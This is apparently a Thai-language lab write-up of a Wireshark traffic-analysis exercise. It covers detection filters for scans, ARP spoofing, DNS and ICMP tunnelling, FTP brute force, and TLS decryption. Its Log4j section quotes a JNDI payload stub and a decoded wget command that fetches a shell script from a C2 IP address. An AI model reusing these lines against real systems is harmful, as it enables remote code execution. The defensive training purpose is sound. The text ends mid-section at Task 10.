






## 🕵️‍♂️ Room: Wireshark: Traffic Analysis

### Task 1: Introduction & Lab Setup
ในส่วนเริ่มต้นนี้ เป็นการเตรียมความพร้อมก่อนเข้าสู่กระบวนการวิเคราะห์ Traffic จริง โดยมีหัวใจสำคัญคือการปรับ Mindset จากการใช้งานเครื่องมือเบื้องต้น สู่การเป็น **Security Analyst**

**Key Objectives:**
- **Analyst Knowledge vs Tool Functionality:** ตระหนักว่า Wireshark เป็นเพียงเครื่องมือที่ช่วยให้เราเห็น Packet ในเชิงลึก แต่การจะระบุว่า Traffic ไหนคือ "ความผิดปกติ (Anomaly)" หรือ "การโจมตี (Malicious)" ต้องอาศัยความรู้ความเข้าใจของนักวิเคราะห์เอง
- **Environment Isolation:** การวิเคราะห์ไฟล์ PCAP ที่อาจมีมัลแวร์ซ่อนอยู่ ต้องทำในสภาพแวดล้อมที่ควบคุมได้ (Virtual Machine) เพื่อความปลอดภัยของระบบหลัก
- **Correlation:** ฝึกทักษะการเชื่อมโยงข้อมูล (Correlation) จาก Packet เล็กๆ หลายๆ อัน เพื่อสร้างภาพใหญ่ (Big Picture) ของเหตุการณ์ที่เกิดขึ้นใน Network

*(เตรียมไฟล์หลักฐาน Exercise PCAPs ทั้งหมดใน VM เรียบร้อย พร้อมสำหรับการวิเคราะห์)*

---

### Task 2: Nmap Scan Pattern Analysis
ในฐานะ SOC Analyst การแยกแยะประเภทของการสแกน (Reconnaissance) ช่วยให้เราเข้าใจพฤติกรรมของ Attacker ได้:

**1. TCP Connect vs SYN Scan:** ผมสามารถแยกแยะความแตกต่างของการสแกนพอร์ตแบบปกติ (Connect) และแบบพรางตัว (Stealth/SYN) ได้ โดยการวิเคราะห์ค่า `Window size` และตรวจสอบ Flag ในระดับ TCP Layer

**2. 🕵️‍♂️ Advanced Analysis: Identifying Open UDP Ports**
การสแกนพอร์ตแบบ UDP (UDP Scan) จะทำงานแตกต่างจาก TCP อย่างสิ้นเชิง เนื่องจาก UDP เป็น Connectionless Protocol การจะหาว่าพอร์ตไหนเปิดอยู่ จึงต้องใช้การวิเคราะห์แบบ **"Reverse Logic (ตรรกะกลับด้าน)"**

**กระบวนการวิเคราะห์ (Methodology):**
1. **The Logic:** เมื่อมีการส่ง UDP Packet ไปยังเป้าหมาย:
   - หากพอร์ต **"ปิด"** ระบบปลายทางจะตอบกลับด้วย `ICMP Type 3, Code 3 (Destination unreachable, port unreachable)`
   - หากพอร์ต **"เปิด"** ระบบปลายทางจะละทิ้ง Packet นั้นไปโดยไม่มีการตอบกลับ (Drop)
2. **Wireshark Filtering:** ผมใช้ Display Filter: `udp.dstport >= 55 and udp.dstport <= 70` เพื่อจับตาดูเฉพาะพอร์ตปลายทางที่เป็นเป้าหมายของการสแกน
3. **The Finding:** จากการวิเคราะห์ Traffic Pattern ผมพบว่ามีเพียง **Port 68** เท่านั้นที่ไม่มีข้อความ ICMP Error ตอบกลับมา จึงสรุปได้ทันทีว่าพอร์ต 68 คือพอร์ตที่เปิดใช้งานอยู่ (Open Port)

*(ภาพแสดงการเปรียบเทียบพฤติกรรมระหว่างพอร์ตที่ปิด ซึ่งมี ICMP ตอบกลับ และพอร์ต 68 ที่เปิดอยู่ ซึ่งไม่มีการตอบกลับ)*

---

### Task 3: ARP Poisoning/Spoofing (MITM) Analysis
ในบทนี้ผมได้ทำการวิเคราะห์การโจมตีประเภท **Man-In-The-Middle (MITM)** ผ่านเทคนิค **ARP Spoofing** เพื่อดักจับข้อมูล (Sniffing) ในเครือข่ายท้องถิ่น

**1. Identifying the Attacker:**
จากการตรวจสอบ Traffic ของโปรโตคอล ARP ผมพบพฤติกรรมผิดปกติ (ARP Flooding) โดยมีเครื่องที่ระบุตัวตนด้วย:
- **Attacker IP:** `192.168.1.25`
- **Attacker MAC:** `00:0c:29:e2:18:b4`

**2. Investigative Filters & Methodology:**
ในการพิสูจน์หลักฐาน ผมใช้ Display Filters ดังนี้เพื่อสกัดข้อมูล:
- **Count Malicious Requests:** `arp.opcode == 1 and eth.src == 00:0c:29:e2:18:b4`
  - *Purpose:* เพื่อนับจำนวนการส่ง ARP Request ปลอมที่แฮกเกอร์ใช้ป่วนตาราง ARP Table ของเหยื่อ
- **Detect Sniffed HTTP Traffic:** `http and eth.dst == 00:0c:29:e2:18:b4`
  - *Purpose:* เพื่อตรวจสอบว่ามีข้อมูล HTTP ของเหยื่อไหลเข้าไปที่เครื่องแฮกเกอร์มากน้อยเพียงใด
- **Extract Sensitive Data (POST Method):** `http.request.method == "POST" and eth.dst == 00:0c:29:e2:18:b4`
  - *Purpose:* เจาะจงหาจังหวะที่เหยื่อกรอกฟอร์ม (Username/Password) เพื่อดูข้อมูลที่ถูกขโมยไปในรูปแบบ Plaintext

**3. Key Findings (Evidence):**
- **Credential Sniffing:** ผมสามารถกู้คืน (Recover) ข้อมูลการล็อกอินของเหยื่อได้หลายรายการ รวมถึงรหัสผ่านของ `Client986` 
- **Data Exfiltration:** พบการดักจับข้อความ Comment ของ `Client354` ซึ่งพิสูจน์ให้เห็นว่าการโจมตีนี้แฮกเกอร์สามารถเห็นข้อมูลทุกอย่างที่ไม่ได้ถูกเข้ารหัส (Unencrypted)

*(ภาพแสดงการกรองข้อมูล HTTP POST ที่ถูกส่งไปยัง MAC Address ของแฮกเกอร์ ซึ่งเผยให้เห็นข้อมูลส่วนตัวของเหยื่อ)*

---

### Task 4: Identifying Hosts (Asset Discovery)
การระบุตัวตนของ Host และ User ในระบบเครือข่ายเป็นขั้นตอนสำคัญในการสืบสวน เพื่อจำกัดขอบเขตของเหตุการณ์ (Scope of Incident) ผมได้วิเคราะห์ผ่าน 3 โปรโตคอลหลัก:

**1. DHCP Analysis (Identifying Devices):**
ใช้เพื่อหาความเชื่อมโยงระหว่าง IP, MAC Address และ Hostname ของอุปกรณ์ที่เข้ามาขอใช้งานเครือข่าย
- **Filter ที่ใช้:** `dhcp.option.hostname contains "Galaxy"` หรือ `dhcp.option.requested_ip_address == 172.16.13.85`
- **Key Findings:** สามารถระบุ MAC Address ของอุปกรณ์พกพา (เช่น Galaxy A30) และชื่อเครื่องคอมพิวเตอร์ผ่าน DHCP Option 12 (Hostname)

**2. NetBIOS (NBNS) Analysis:**
ใช้ตรวจสอบการประกาศตัวตน (Name Registration) ของเครื่อง Windows ในระบบ LAN
- **Filter ที่ใช้:** `nbns.name contains "LIVALJM" and nbns.flags.opcode == 5`
- **Key Findings:** การเจาะจงที่ **Opcode 5** ช่วยให้นับจำนวนครั้งที่เครื่องคอมพิวเตอร์พยายามลงทะเบียนชื่อในระบบได้อย่างแม่นยำ โดยไม่สับสนกับ Traffic การถามหาชื่อ (Query) ทั่วไป

**3. Kerberos Analysis (User & Machine Identification):**
ใช้ระบุตัวตนผู้ใช้งาน (Username) และชื่อเครื่องในระบบ Active Directory Domain
- **Filter ที่ใช้:** `kerberos.CNameString contains "u5"` หรือ `kerberos.CNameString contains "$"`
- **Analyst Logic:** - ค่าใน `CNameString` ที่ไม่มีสัญลักษณ์พิเศษมักจะเป็น **Username**
    - ค่าที่ลงท้ายด้วย **`$`** คือ **Hostname** ของเครื่องที่ใช้ล็อกอิน
    - ช่วยให้สามารถเชื่อมโยง (Correlate) ได้ว่า User `u5` กำลังใช้งานเครื่องคอมพิวเตอร์เครื่องใดจากเลข IP ที่ปรากฏ

*(ภาพแสดงการวิเคราะห์ Kerberos Packet เพื่อแยกแยะระหว่าง Username และ Hostname ในระบบ Domain)*

---

### Task 5: Tunnelling Traffic (ICMP & DNS)
การวิเคราะห์เพื่อตรวจจับการลักลอบส่งข้อมูล (Data Exfiltration) และการสร้างช่องทางเชื่อมต่อ (C2 Channel) ผ่านโปรโตคอลพื้นฐานของระบบเครือข่าย เนื่องจากแฮกเกอร์ทราบดีว่าโปรโตคอลเหล่านี้มักจะได้รับอนุญาตให้ผ่าน Firewall เสมอ

**1. ICMP Tunnelling Analysis:**
ตรวจสอบความผิดปกติของปริมาณข้อมูลที่แนบมากับคำสั่ง Ping
- **Filter ที่ใช้:** `data.len > 64 and icmp`
- **Key Findings:** ตรวจพบ ICMP Packet (Echo Reply/Request) ที่มีขนาดใหญ่ผิดปกติ (มากกว่า 800 Bytes) เมื่อเจาะลึกเข้าไปวิเคราะห์ในชั้น Data Payload พบลายเซ็น (Signature) ของโปรโตคอล **SSH** (`ssh-rsa`) ถูกซ่อนพรางมากับแพ็กเก็ตเหล่านั้น

**2. DNS Tunnelling Analysis:**
ตรวจสอบการใช้ช่องโหว่ของโครงสร้าง DNS เพื่อส่งออกข้อมูลผ่านชื่อ Domain Name
- **Filter ที่ใช้:** `dns.qry.name.len > 30 and dns.qry.name contains ".com"` (เทคนิคการคัดแยก Noise เพื่อหา Fully Qualified Domain Name ที่มีความยาวผิดปกติ)
- **Key Findings:**
  - ตรวจพบ Traffic ที่มีค่า Entropy สูง (ชื่อ Subdomain เป็นเลขฐาน 16 แบบสุ่มและยาวผิดปกติ)
  - แฮกเกอร์หลีกเลี่ยงการใช้ Type A แต่หันไปใช้ **Type TXT** และ **Type MX** เพื่อให้สามารถบรรจุ Payload ได้มากขึ้นใน 1 Query
  - ตรวจพบการใช้งานเครื่องมือสำเร็จรูปชื่อ **dnscat** ในการสร้างอุโมงค์
  - ระบุ C2 Server Domain ปลายทางได้สำเร็จคือ `dataexfil[.]com`

*(ภาพแสดงการใช้ Filter เพื่อคัดแยก Traffic ที่เกิดจากเครื่องมือ dnscat ออกจาก DNS Traffic ปกติของระบบ)*

---

### Task 6: Cleartext Protocol Analysis (FTP)
การวิเคราะห์โปรโตคอลที่ไม่มีการเข้ารหัส (Cleartext) อย่าง FTP เพื่อตรวจสอบพฤติกรรมการโจมตีและการเข้าถึงข้อมูลโดยไม่ได้รับอนุญาต 

**1. Brute-force Attack Detection:**
ตรวจสอบความพยายามในการเดารหัสผ่านเพื่อเจาะเข้าสู่ระบบ
- **Filter ที่ใช้:** `ftp.response.code == 530` (530 = Not logged in / Invalid password)
- **Key Findings:** ตรวจพบการพยายามล็อกอินล้มเหลวจำนวนมากถึง **737 ครั้ง** ซึ่งเป็นพฤติกรรม (Signature) ที่ชัดเจนของการทำ Brute-force attack

**2. File Size & Information Gathering:**
ตรวจสอบการดึงข้อมูลสถานะของไฟล์ในเซิร์ฟเวอร์
- **Filter ที่ใช้:** `ftp.response.code == 213` (213 = File status)
- **Key Findings:** ตรวจพบว่า User บัญชี `ftp` มีการเข้าถึงและเรียกดูขนาดไฟล์ โดยไฟล์เป้าหมายมีขนาด **39,424 Bytes**

**3. Data Exfiltration / Malicious File Transfer:**
ตรวจสอบการดาวน์โหลด/อัปโหลดไฟล์ที่น่าสงสัย
- **Filter ที่ใช้:** `ftp.request.arg contains ".doc"` หรือใช้คำสั่ง `RETR` (Retrieve) และ `STOR` (Store)
- **Key Findings:** ตรวจพบการโอนย้ายไฟล์เอกสารชื่อ **`resume.doc`** - **Analyst Note:** ในกระบวนการวิเคราะห์ พบความคลาดเคลื่อนของสมมติฐานเบื้องต้น (โจทย์ระบุว่าเป็นการ Upload/STOR) แต่เมื่อใช้เทคนิคการค้นหาจาก Extension ของไฟล์ (`.doc`) พบว่าผู้โจมตีใช้คำสั่ง `RETR` ซึ่งเป็นการ Download ไฟล์ออกจากเซิร์ฟเวอร์ (Exfiltration) แทน

**4. Permission Modification (Privilege Escalation):**
ตรวจสอบการพยายามเปลี่ยนสิทธิ์การเข้าถึงหรือสิทธิ์การรันไฟล์ในระบบปลายทาง
- **Filter ที่ใช้:** `ftp.request.command == "SITE"`
- **Key Findings:** ตรวจพบว่าผู้โจมตีพยายามใช้คำสั่งเฉพาะของเซิร์ฟเวอร์ในการเปลี่ยนสิทธิ์ไฟล์ (File Permissions) โดยใช้คำสั่ง **`chmod 777`** เพื่อให้ไฟล์นั้นสามารถถูกอ่าน, เขียน และรัน (Execute) ได้โดยทุกคนในระบบ

*(ภาพแสดงการใช้ Filter เพื่อกรองหา Response Code 530 ที่บ่งชี้ถึงการทำ Brute-force Attack ผ่านช่องทาง FTP)*

---

### Task 7: Cleartext Protocol Analysis (HTTP)
การวิเคราะห์ HTTP Traffic เพื่อตรวจจับพฤติกรรมผิดปกติ เครื่องมือแฮกเกอร์ และการโจมตีผ่านเว็บแอปพลิเคชัน (Web Attacks)

**1. User-Agent Anomaly Detection:**
ตรวจสอบการปลอมแปลงและร่องรอยของเครื่องมืออัตโนมัติ (Automated Tools) ที่แฝงมาใน HTTP Header
- **Filter ที่ใช้:** สร้างคอลัมน์ Custom `http.user_agent` และค้นหาคำว่า `sqlmap`, `Nmap`, `Wfuzz`, `Nikto`
- **Key Findings:** ตรวจพบ User-Agent ที่เป็นเครื่องมือโจมตีและข้อมูลที่ผิดปกติทั้งหมด **6 ประเภท** รวมไปถึงความพยายามในการปลอมตัวเป็นเบราว์เซอร์แต่สะกดผิด (Typo) เป็น **`Mozlila`** (ตรวจพบที่แพ็กเก็ตหมายเลข **52**)

**2. Web Attack Detection (Log4j Vulnerability):**
สืบสวนร่องรอยการโจมตีช่องโหว่ระดับ Critical อย่าง Log4j (CVE-2021-44228)
- **Filter ที่ใช้:** `http.request.method == "POST" and ip contains "jndi"`
- **Key Findings:**
  - ตรวจพบจุดเริ่มต้นของการทำ Remote Code Execution (RCE) ที่แพ็กเก็ตหมายเลข **444**
  - ผู้โจมตีอาศัยช่องโหว่โดยฝัง JNDI Lookup Payload ไว้ในฟิลด์ User-Agent: `${jndi:ldap://...}`
  - ภายใน Payload มีการหลบเลี่ยงการตรวจจับ (Obfuscation) ด้วยการเข้ารหัส **Base64**
  - เมื่อทำ Decoding พบคำสั่งดาวน์โหลดและเอ็กซีคิวต์ Shell Script (`wget http://62.210.130.250/lh.sh...`) 
  - ระบุ IP Address ของเซิร์ฟเวอร์ควบคุม (C2) คือ **`62[.]210[.]130[.]250`**

  (assets/7.png)
  (assets/7.1.png)

  ---

### Task 8: Decrypting HTTPS Traffic
การวิเคราะห์และถอดรหัสข้อมูลที่ถูกเข้ารหัสด้วยโปรโตคอล TLS/SSL (HTTPS) เพื่อตรวจสอบเนื้อหาภายในที่อาจเป็นภัยคุกคาม หรือสืบสวนหาข้อมูลที่ถูกขโมยออกไป (Data Exfiltration) ที่ถูกซ่อนไว้ใต้การเข้ารหัส

**1. TLS Handshake Analysis:**
ตรวจสอบขั้นตอนการเริ่มต้นเจรจาการเชื่อมต่อ (Handshake) ระหว่างเครื่องเป้าหมายและเซิร์ฟเวอร์
- **Filter ที่ใช้:** `tls.handshake.type == 1 and tls.handshake.extensions_server_name == "accounts.google.com"`
- **Key Findings:** สามารถระบุตำแหน่งของแพ็กเก็ต "Client Hello" ที่ใช้ในการร้องขอการเชื่อมต่อไปยังเซิร์ฟเวอร์ปลายทางได้อย่างแม่นยำ

**2. Traffic Decryption (SSL/TLS Key Integration):**
กระบวนการนำกุญแจถอดรหัส (Session Keys) มาไขดูข้อมูลที่ถูกเข้ารหัสแบบ End-to-End
- **Methodology:** นำไฟล์ Session Key (`KeysLogFile.txt`) ไปกำหนดค่าในระบบของ Wireshark (`Preferences -> Protocols -> TLS -> (Pre)-Master-Secret log filename`)
- **Key Findings:** หลังจากนำกุญแจเข้าระบบ สำเร็จการถอดรหัสทราฟฟิกและเปิดเผยให้เห็นโปรโตคอลระดับแอปพลิเคชันที่แท้จริง ซึ่งในกรณีนี้คือ **HTTP/2** (ตรวจพบทราฟฟิก HTTP/2 ที่ถูกซ่อนไว้จำนวน 119 แพ็กเก็ต)

**3. HTTP/2 Header & Payload Investigation:**
เจาะลึกข้อมูลระดับ Header และข้อมูลที่ส่งผ่าน (Payload) ในสตรีมที่ถูกถอดรหัสแล้ว
- **Methodology:** ตรวจสอบโครงสร้าง `Header: :authority` และใช้การทำ `Follow -> HTTP/2 Stream` เพื่อวิเคราะห์ข้อมูลในรูปแบบ Plaintext
- **Key Findings:** - ตรวจพบการเชื่อมต่อไปยัง Authority Domain: **`safebrowsing[.]google[.]com`**
  - จากการทำ String Search ภายใน Decrypted Payload สามารถสกัดกั้นและค้นพบข้อมูลสำคัญที่ซ่อนอยู่ได้สำเร็จ: **`FLAG{THM-PACKETMASTER}`**
 (assets/8.png)
  (assets/8.1.png)
---

---

### Task 9: Bonus - Hunt Cleartext Credentials!
การใช้ฟีเจอร์อำนวยความสะดวกใน Wireshark เพื่อสกัดกั้นและรวบรวมข้อมูล Credentials ที่ถูกส่งผ่านโปรโตคอลแบบ Cleartext (เช่น FTP, HTTP, IMAP, POP, SMTP) อย่างรวดเร็ว

**1. Automated Credential Extraction:**
- **Methodology:** ใช้ฟีเจอร์ `Tools --> Credentials` ในการสกัด Username และ Password ออกมาจาก Pcap file เพื่อลดระยะเวลาในการวิเคราะห์ (Detection Time)
- **Key Findings:** - ตรวจพบการพยายามส่งรหัสผ่านแบบว่างเปล่า (Empty Password) ในโปรโตคอล FTP ที่แพ็กเก็ตหมายเลข **`170`**
  - ตรวจพบการล็อกอินเข้าสู่ระบบเว็บผ่านโปรโตคอล HTTP ด้วยวิธี Basic Auth ที่แพ็กเก็ตหมายเลข **`237`**
  (assets/9.png)

  ---

### Task 10: Bonus - Actionable Results! (Firewall ACL Rules)
นอกจากการวิเคราะห์แล้ว กระบวนการ Incident Response ที่สำคัญคือการยับยั้งภัยคุกคาม (Containment) Wireshark มีฟีเจอร์ที่ช่วยแปลงผลการวิเคราะห์ให้กลายเป็น Actionable Intelligence ได้ทันที

**1. Firewall Rule Generation:**
